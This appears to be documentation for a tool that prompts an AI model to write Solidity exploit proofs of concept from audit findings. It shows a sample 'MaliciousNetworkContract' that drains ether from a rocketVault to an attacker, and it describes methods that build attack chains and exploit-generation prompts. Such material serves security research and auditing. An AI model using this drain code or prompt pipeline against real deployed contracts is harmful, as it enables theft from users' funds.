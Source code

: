 ### Generated Code Quality

**Before**:
```solidity
contract MaliciousContract {
    function exploit() external {
        rocketVault.setLatestNetworkContract(address(this));  // ❌ Doesn't exist!
        uint256 amountToWithdraw = rocketVault.balanceOf("latestNetworkContract");
        rocketVault.withdrawEther(amountToWithdraw);
    }
}
```

**After** (with improvements):
```solidity
contract MaliciousNetworkContract {
    IRocketVault public rocketVault;
    
    function drainVaultEther(uint256 _amount) external {
        require(msg.sender == attacker);
        rocketVault.withdrawEther(_amount);  // ✅ Real function!
        payable(attacker).transfer(address(this).balance);
    }
    
    function receiveVaultWithdrawalETH() external payable {
        // Callback for ETH transfers
    }
}
```

## Technical Details

### New Methods Added

1. **`_extract_external_functions(contract_code: str) -> str`**
   - Parses contract with regex to find external/public functions
   - Returns formatted list of available functions
   - Limits to first 15 functions for context window

2. **`_extract_modifiers(contract_code: str) -> str`**
   - Extracts modifier definitions and logic
   - Includes first 100 characters of logic
   - Returns first 5 modifiers

3. **`_analyze_attack_chain(finding: NormalizedFinding) -> str`**
   - Maps vulnerability type to specific attack steps
   - Supports: access_control, governance, oracle, reentrancy
   - Generates 5-6 step attack descriptions

4. **`_create_specific_exploit_prompt(context, template, contract_code) -> str`**
   - Creates detailed vulnerability-specific prompt
   - Includes extracted functions, modifiers, attack chain
   - Provides template structure for exploit
   - Warnings against common mistakes
